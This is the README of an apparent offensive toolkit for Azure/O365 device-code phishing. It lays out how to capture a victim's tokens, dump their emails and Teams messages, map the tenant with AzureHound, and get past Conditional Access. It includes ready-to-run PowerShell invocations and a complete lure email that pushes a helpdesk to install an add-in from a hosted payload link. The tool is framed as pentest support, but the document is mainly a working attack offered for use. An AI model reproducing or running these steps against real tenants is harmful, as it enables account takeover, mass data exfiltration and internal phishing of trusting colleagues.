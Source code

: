 ![image](./ascii.png)

### "If you only get one.."

#### Overview

This is a proof-of-concept script kit to assist in device code phishing during Azure/O365 testing. This tool was made to solve one problem - If you only get one chance, and then kicked out immediately, what would you hope you could do in that window? This tool will send a device code in one of the email templates, loot that users email and teams, then send an email as that user to whoever we choose. Use your first target to phish your second from a trusted address. It has optional modules for azurehound and some other recon steps. 

We import TokenTactics and AADInternals, then trigger an authentication flow for the graph and request a device code that is used to sign in. The device code gets replaced in a template and a sign in is prompted for the sending user. This is your pretext. This will give us an access token, and our refresh token. We use our access token with Outlook to send the template to the first user with the codethey need to use. When they enter this code, we get a set of tokens for them. The refresh token allows us to request new access tokens for various other Microsoft services. By refreshing new access tokens for Azure Core Management, MSTeams, Outlook, etc, we're able to move from service to service and pillage what we need without signing in multiple times on multiple sites. This allows for repid exfiltration of data from multiple avenues quicker than an analyst can triage any forthcoming alert. By minting an Outlook token, we can use the new account to send emails to additional targets and control the users mailbox.   

Script will check your OS (Windows or Linux) and install the required modules and Azurehound binary needed for post-exploitation activity automatically. That said, this may be buggy on linux, I haven't put it through it's paces there.

#### Usage

Use a -very- important project manager as your initial access vector, use their organization account to run azurehound to map the tenant and send a link internally to a payload hosted elsewhere. Runs azurehound module. You won't need it every time, but is a good way to start.

The variable firstuser is the one you want to hijack, targetUser is the eventual target you hope to reach. Template will be sent first in the background, if the user approves, the message passed here will be emailed to them as the first victim.

```powershell
$targetUser = "helpdesk@corpomax.com"
$firstUser = "ClickamusMaximus@corpomax.com"
$messageContent = "Hey guys, <p> the client is asking us to install an addin, something to do with the 'period net' framework and PDFs, sounds gross, haha. Can you take a look and see if we can get it installed? Thy're really breathing down our necks https://pdfutil.azurewebsites.net/addin </p> <p> Thanks guys you're the unsung heroes of CorpoMax, they should pay you more! </p> <p> Sincerely Yours.</p>"
$subject = "Software for Project Management"
$template = "bluebeam" # or chatgpt, or one of the secret ones 

.\wrapper.ps1 -targetUser $targetUser -firstUser $firstUser -messageContent $messageContent -subject $subject -template $template -azurehound
```

Same scenario, but quicker with no installation or Azurehound. 

```powershell
$targetUser = "helpdesk@corpomax.com"
$firstUser = "ClickamusMaximus@corpomax.com"
$messageContent = "Hey guys, <p> the client is asking us to install an addin, something to do with the 'period net' framework and PDFs, sounds gross, haha. Can you take a look and see if we can get it installed? Thy're really breathing down our necks https://pdfutil.azurewebsites.net/addin </p> <p> Thanks guys you're the unsung heroes of CorpoMax, they should pay you more! </p> <p> Sincerely Yours.</p>"
$subject = "Software for Project Management"
$template = "bluebeam"

.\wrapper.ps1 -targetUser $targetUser -firstUser $firstUser -messageContent $messageContent -subject $subject -template $template
```


#### Phase 1 - Recon
If modules are specified, once you receive an access token, the script will automatically perform requested recon of tenant, user and groups using AADInternals or Azurehound. Can generate a list of users with detailed information (SIDs, valid sessions, phone number, identities) is exported and useable user list for the spreader function is generated. Groups, users, internal recon, etc output to json in the same directory as the script.

![image](https://github.com/MelloSec/PhirstPhish/assets/65114647/01e9fd43-b20f-48c2-a8b3-9fdc1b5ae6ad)

![image](https://github.com/MelloSec/PhirstPhish/assets/65114647/83a3398c-bf41-47e3-bfa6-e480bddd0fc2)

Using the latest version of Azurehound for your platform, the Azure tenant will be mapped and output to a format you can load into Neo4j for graphing attack paths. This will show you what the newly compromised account has access to and possible ways you can escalate your privileges across the tenant to gain Global Administrator / whatever you desire.

![image](https://github.com/MelloSec/PhirstPhish/assets/65114647/ec598ff5-e82d-4a36-acfb-f887e9b18b55)


#### Phase 2 - Loot
It will dump the compromised users last 200 emails from their inbox and all their teams messages by default. Optional modules include azureHound, azureAd and Recon. If the azureAd module is used, a user list is generated for further phishing attacks, as well as groups. if the recon module is used, AADInternals authenticated recon modules will run.  

<b><u>WARNING:</u></b> Just to re-iterate that last bit.. this will export a lot of sensitive information to the folder you run this from, as that is it's intended purpose. Please clean up your workspace / don't commit the loot to main 


#### Phase 3 - Spread
Specifying "-targetUser" and "-messageContent" will let you pass an email address and phishing pretext to use the compromised account as an internal relay and attempt to move laterally or capitalize on a trusted relationship with an external third party.


#### Extras

V2 - Included the V2 fork of TokenTactics in the repo, just so you know it exists. It has additional features but at the time I made this tool they weren't playing nice and it wasn't worth trying to make it work. I think that's mostly fixed, if you want to try this script with V2, modify PhirstPhish.ps1 and insert the URL to the V2 repo https://github.com/f-bader/TokenTacticsV2 and try it? Shouldn't take much to make that work, but will give you access to the extended Continus Access Evaluation tokens, if ya nasty: https://learn.microsoft.com/en-us/entra/identity/conditional-access/concept-continuous-access-evaluation

RoadTools.ps1 - proof of concept that uses TokenTactics to generate a token for RoadTools which will gather conditional access policy info and register a device that could bypass Conditonal Access. As is, play with it, make it your own.


#### Acknowledgements 

Huge thanks to Bobby Cook https://github.com/boku7 and Beaux Bullock https://github.com/dafthack for all the amazing Azure/O365 pentesting resources and classes that got me started 

Shout-out to Steve Borosh https://github.com/rvrsh3ll for the amazing TokenTactics module used in Refreshing tokens and certain post-ex activites here, picking apart your code was hugely helpful in understanding this stuff.

Shout-out to the venerable Dr Nestori Syynimaa (@DrAzureAD), too, for laying all the groundwork with AADInternals https://github.com/Gerenios/AADInternals, used here extensively. Hell of a toolbox and his blog is like a free AzureAD pentesting e-book.

PRs welcome!